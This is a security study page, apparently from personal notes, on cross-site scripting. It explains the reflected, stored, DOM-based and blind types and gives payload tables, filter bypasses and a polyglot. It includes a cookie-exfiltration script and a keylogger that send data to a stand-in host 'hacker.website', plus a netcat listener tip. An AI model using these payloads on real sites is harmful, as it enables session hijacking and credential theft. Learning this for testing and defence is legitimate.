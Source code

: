 # XSS vulnerabilities (Javascript)

[![xssgi](../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![xss_injection](../../../_badges/poat/xss_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
[![xss_filter_evasion](../../../_badges/owasp/xss_filter_evasion.svg)](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
[![dom_based_xss_prevention](../../../_badges/owasp/dom_based_xss_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refer to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS')</script>
```

I think you would enjoy more

```js
<script>console.log('XSS')</script>
```

<br>

Places to check 📌

* Forms
* Headers <small>(ex: the client IP may be logged somewhere on the admin-side, on the helpdesk website)</small>
* ...

<br>

One thing to remember is that you would rather make it invisible to the user that a script is being executed in its browser. As such, if you inject a malicious payload in the source attribute of an image field, it would be best to still make sure an image is properly displayed, so that it does not look suspicious at first glance.

</div><div>

<p class="text-center">Some attacks</p>

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```html
<script>fetch('https://hacker.website/hijack?cookie=' + btoa(document.cookie));</script>
<!--
CTF: nc -nlvp port | And use the ip:port
Decode: sed -n 's/GET \/?cookie=\(.*\)/\1/p' request | base64 -d
-->
<script>fetch('http://ip:port/?cookie=' + btoa(document.cookie));</script>
```

**A keylogger**: send keys pressed to the hacker website. The script is using `btoa()` to encode in base64 the values.

<details class="details-n">
<summary>See code</summary>

```html
<script>
    let keys = ''
    document.onkeydown = e => keys += e.key
    setInterval(() => {
        if (keys === '') return
        fetch('https://hacker.website/keylogger?key=' + btoa(keys) )
        keys = ''
    }, 1000)
</script>
```
</details>

* Exploit the client privileges to query the website API if any
* Map open ports on the target
* ...

> See [XSS-payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all) for more exploits, but it's a bit old.
</div></div>

<hr class="sep-both">

## Reflected XSS

<div class="row row-cols-md-2"><div>

The malicious code is usually inside a URL, and the vulnerable website when loading the URL, will execute the malicious website.
</div><div>

For instance, "https://vulnerable.search.engine" is a search engine in which the query is stored in the URL in the parameter `q`. The website is vulnerable to XSS, so if we open the URL, then the javascript will run in our browser.

```
https://vulnerable.search.engine/?q=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
```
</div></div>

<hr class="sep-both">

## Stored XSS

<div class="row row-cols-md-2"><div>

The malicious code is stored by the website, usually in a database. Then, in another page loading the data from the database, a vulnerable website will execute the malicious code.

> Comments, profiles, listings... may be vulnerable.
</div><div>

For instance, a user using the value `<script>alert('XSS');</script>` as username. Then, for instance on the vulnerable profile page, any user opening a link to the compromised profile, will execute the malicious code.
</div></div>

<hr class="sep-both">

## DOM Based XSS

<div class="row row-cols-md-2"><div>

DOM Based XSS mean using the document events such as when a tag is loaded, when an image is hovered, and so on, to execute javascript. It should be viewed as something used by both Reflected and Stored XSS when we can't use the TAG `<script>`.
</div><div>

```html
<img src="https://duckduckgo.com/assets/logo_homepage.alt.v108.svg"
     onload="alert('XSS#load')"
     onerror="alert('XSS#error')"
     onmouseover="alert('XSS#hover')"
/>
```
</div></div>

<hr class="sep-both">

## Blind XSS

<div class="row row-cols-md-2"><div>

In blind <small>(or out-band)</small> XSS, you are usually sending a payload in a contact/support... forms, in order to maybe steal information from the admin-side website if any. We are calling it "blind XSS", because it's not possible to see if it's working.
</div><div>

See [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) (1.2k ⭐)
</div></div>

<hr class="sep-both">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>

</tbody></table>

<hr class="sep-both">

## Bypass filters

<div class="row row-cols-md-2"><div>

**Logic flaw**

For instance, a dropdown in which a user is supposed to pick a country. A hacker can try to inject a malicious payload instead of a country. If the developer didn't check the field because the value were supposedly limited to the one the developer picked, then we have a logic flaw.

**Bypass HTML symbols filtering**

If `<`, and `>` are filtered, an attacker may still use DOM Based XSS.

**Bypass DOM Based Filtering**

If there is a filter removing every attribute such as `onload`, `onmouseover`... Then you could try variants as HTML is case-insensitive.

```html
<img src="" ONERROR="alert('XSS')" />
```

</div><div>

**Bypass keywords filtering**

Most functions to filter something will only pass on the text once. It means that if the hacker know that something is filtered, he may create a payload that is only working after being filtered. For instance, below the filter will remove the "&lt;script&gt;", so the "&lt;s" and the "cript&gt;" will be concatenated, effectively bypassing the filter.

```html
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

You can also try variants if the filter is case-sensitive

```html
<scIpT>alert('XSS');</scIpT>
```

Another way of bypassing keyword filtering is using alternate forms. For instance, with the function `alert`, we could do.

```html
<img src="NOT_FOUND" onerror="eval('aler'+'t')('XSS')">
<!-- unicode in HTML with &# \u -->
<img src="NOT_FOUND" onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;('XSS')>
<!-- unicode with \u -->
<img src="NOT_FOUND" onerror=\u0061lert('XSS')>
```
</div></div>

<hr class="sep-both">

## Polyglots - the magic payloads

<div class="row row-cols-md-2"><div>

XSS polyglots are sort of magic payloads designed to bypass many tags/attributes/filters/... at once.
</div><div>

An example

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div></div>